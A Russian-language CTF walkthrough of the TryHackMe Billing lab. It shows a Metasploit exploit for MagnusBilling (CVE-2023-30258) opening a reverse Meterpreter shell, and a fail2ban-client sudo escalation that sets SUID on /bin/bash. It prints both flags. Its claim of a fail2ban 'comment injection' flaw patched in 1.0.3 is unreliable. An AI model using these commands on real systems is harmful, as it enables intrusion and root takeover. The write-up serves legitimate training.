


# TryHackMe Billing Machine — CTF Walkthrough

**Уровень сложности:** Easy  
**Платформа:** TryHackMe  
**Целевой адрес:** 10.114.185.238

---

## Содержание

1. [Обзор](#обзор)
2. [Этап 1: Разведка](#этап-1-разведка)
3. [Этап 2: Эксплуатация](#этап-2-эксплуатация)
4. [Этап 3: Получение первого флага](#этап-3-получение-первого-флага)
5. [Этап 4: Эскалация привилегий](#этап-4-эскалация-привилегий)
6. [Этап 5: Получение root флага](#этап-5-получение-root-флага)
7. [Выводы и learnings](#выводы-и-learnings)

---

## Обзор

Машина Billing является CTF-вызовом, ориентированным на эксплуатацию уязвимостей веб-приложения **Magnus Billing**. Решение задачи включает:
- Сканирование и идентификацию сервисов
- Использование публичного эксплойта для RCE
- Поиск учётных данных пользователя
- Эскалацию привилегий через конфигурацию fail2ban

**Флаги:**
- User: `THM{4a6831d5f124b25eefb1e92e0f0da4ca}` 
- Root: `THM{33ad5b530e71a172648f424ec23fae60}` 
---

## Используемые инструменты

| Инструмент | Версия | Назначение |
|---|---|---|
| **Nmap** | 7.99 | Сканирование портов и сервисов |
| **Metasploit Framework** | - | Поиск и выполнение эксплойта RCE |
| **Meterpreter** | PHP/Linux | Интерактивная сессия после RCE |
| **fail2ban-client** | 1.0.2 | Вектор эскалации привилегий |
| **Python3** | - | Генерация интерактивного shell |

---

## Этап 1: Разведка

### Сканирование Nmap

```bash
sudo nmap -sC -sV -v 10.114.185.238
```

**Результаты:**

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u6
80/tcp   open  http    Apache httpd 2.4.62 (Debian)
3306/tcp open  mysql   MariaDB 10.3.23 or earlier
```

**Ключевые находки:**

| Порт | Сервис | Информация |
|---|---|---|
| 22 | SSH | OpenSSH 9.2p1 на Debian |
| 80 | HTTP | Apache с приложением **MagnusBilling** по пути `/mbilling/` |
| 3306 | MySQL | MariaDB (требует авторизации) |

**Дополнительно:** `/mbilling/` (дорога чётко обозначена).

---

## Этап2: Эксплуатация

### Поиск уязвимостей Magnus Billing

После поиска в инете Magnus Billing версии на машине подвержена критической уязвимости **RCE без аутентификации**.

### Используемый эксплойт

```bash
msfconsole -q
msf > search CVE-2023-30258
```

**Найденный модуль:**
```
exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258
```

**Ссылка на CVE:** [CVE-2023-30258](https://nvd.nist.gov/vuln/detail/CVE-2023-30258)

### Конфигурация и выполнение

```bash
msf > use exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258
msf exploit(...) > set lhost tun0
lhost => 192.168.157.197

msf exploit(...) > set rhosts 10.114.185.238
rhosts => 10.114.185.238

msf exploit(...) > run
```

**Результат:**

```
[*] Checking if 10.114.185.238:80 can be exploited.
[*] Performing command injection test issuing a sleep command of 4 seconds.
[*] Elapsed time: 4.34 seconds.
[+] The target is vulnerable. Successfully tested command injection.
[*] Executing PHP for php/meterpreter/reverse_tcp
[*] Sending stage (45739 bytes) to 10.114.185.238
[+] Deleted dDvgqlfRS.php
[*] Meterpreter session 1 opened (192.168.157.197:4444 -> 10.114.185.238:56468)

meterpreter >
```

### Получение интерактивного shell

```bash
meterpreter > shell
Process 3498 created.
Channel 0 created.

python3 -c 'import pty; pty.spawn("/bin/bash")'
asterisk@ip-10-114-185-238:/var/www/html/mbilling/lib/icepay$
```

**Текущий пользователь:** asterisk (uid=1001, gid=1001)

---

## Этап 3: Получение первого флага

### Инвентаризация системы

```bash
cd /home
ls -la

# Вывод:
# drwxr-xr-x  3 debian   debian   4096 Aug  4 23:43 debian
# drwxr-xr-x 15 magnus   magnus   4096 Sep  9  2024 magnus
# drwxr-xr-x  2 ssm-user ssm-user 4096 May 28  2025 ssm-user
```

**Обнаруженные пользователи:** debian, magnus, ssm-user

### Поиск флага

```bash
cd /home/magnus
ls -la

# -rw-r--r--  1 magnus magnus   38 Mar 27  2024 user.txt

cat user.txt
```

**User Flag:**
```
THM{4a6831d5f124b25eefb1e92e0f0da4ca}
```

---

## Этап 4: Эскалация привилегий

### Анализ sudo привилегий

```bash
sudo -l

 Результат:
 (ALL) NOPASSWD: /usr/bin/fail2ban-client
```

**Вывод:** Можно запускать fail2ban-client без пароля с правами root.

### Проверка fail2ban конфигурации

```bash
sudo /usr/bin/fail2ban-client status

# Результат:
# Status
# |- Number of jail:      8
# `- Jail list: ast-cli-attck, ast-hgc-200, asterisk-iptables,
#               asterisk-manager, ip-blacklist, mbilling_ddos,
#               mbilling_login, sshd
```

### Вектор атаки: Comment Injection в fail2ban

Fail2ban 1.0.2 содержит уязвимость, позволяющую добавлять произвольные действия через клиент.

**Шаг 1:** Добавить новое action "evil"

```bash
sudo /usr/bin/fail2ban-client set sshd addaction evil

 вывод: evil
```

**Шаг 2:** Установить действие с payload (SUID на /bin/bash)

```bash
sudo /usr/bin/fail2ban-client set sshd action evil actionban "chmod +s /bin/bash"

 вывод: chmod +s /bin/bash
```

**Шаг 3:** Триггировать action через ban IP

```bash
sudo /usr/bin/fail2ban-client set sshd banip 1.2.3.5

 вывод: 1
```

Эта команда вызывает сработку action, что выполняет `chmod +s /bin/bash` с привилегиями root.

**Результат:**
```bash
ls -la /bin/bash
-rwsr-sr-x 1 root root 1396520 Feb 11  2024 /bin/bash
```

SUID бит установлен ✓

### Выполнение shell с привилегией root

```bash
/bin/bash -p

bash-5.2# whoami
root

bash-5.2# id
uid=0(root) gid=0(root) groups=0(root)
```

**Статус:** Привилегии успешно повышены до root

---

## Этап 5: Получение root флага

```bash
cd /root
ls -la

# Вывод:
# -rw-r--r--  1 root root   filename
# -rw-r--r--  1 root root   passwordMysql.log
# -rw-r--r--  1 root root   38 Mar 27  2024 root.txt

cat root.txt
```

**Root Flag:**
```
THM{33ad5b530e71a172648f424ec23fae60}
```

---

## Выводы и learnings

### Критические уязвимости, использованные в решении

| # | Уязвимость | Компонент | Влияние |
|---|---|---|---|
| 1 | CVE-2023-30258 | Magnus Billing | Remote Code Execution (RCE) без аутентификации |
| 2 | Comment Injection | fail2ban 1.0.2 | Выполнение произвольных команд с привилегиями root |
| 3 | Чрезмерные sudo привилегии | fail2ban-client | Неограниченный доступ к инструменту без пароля |

### Ключевые моменты

**Разведка:**
- Nmap выявил все необходимые сервисы за одно сканирование

**Эксплуатация:**
- Публичный эксплойт в Metasploit сильно упростил получение RCE
- Генерирование интерактивного shell через Python3 было необходимо для дальнейшей работы

**Эскалация привилегий:**
- Проверка `sudo -l` выявила основной вектор атаки
- Комбинация трёх команд fail2ban-client позволила выполнить произвольную команду как root
- SUID на /bin/bash даёт возможность сохранить привилегии в новом shell

**Рекомендации по защите**

- Обновить Magnus Billing** до версии без CVE-2023-30258
- Ограничить sudo привилегии** на fail2ban-client (если необходимо, использовать specific jails и actions)
- Обновить fail2ban** до версии ≥ 1.0.3 (patch для comment injection)
- Мониторить создание файлов** с SUID битом в /bin и /usr/bin

---

## Дополнительные команды для повтора

```bash
# Полное сканирование
sudo nmap -sC -sV -v 10.114.185.238

# Запуск Metasploit exploit
msfconsole -q
use exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258
set lhost tun0
set rhosts 10.114.185.238
run

# Интерактивный shell
python3 -c 'import pty; pty.spawn("/bin/bash")'

# Эскалация через fail2ban
sudo /usr/bin/fail2ban-client status
sudo /usr/bin/fail2ban-client set sshd addaction evil
sudo /usr/bin/fail2ban-client set sshd action evil actionban "chmod +s /bin/bash"
sudo /usr/bin/fail2ban-client set sshd banip 1.2.3.5
/bin/bash -p
```


- [TryHackMe Billing Room](https://tryhackme.com/r/room/billing)

## Автор

Решение выполнено в образовательных целях для TryHackMe CTF.

**Дата:** 05.08.2026  
**Время решения:** 1 ч
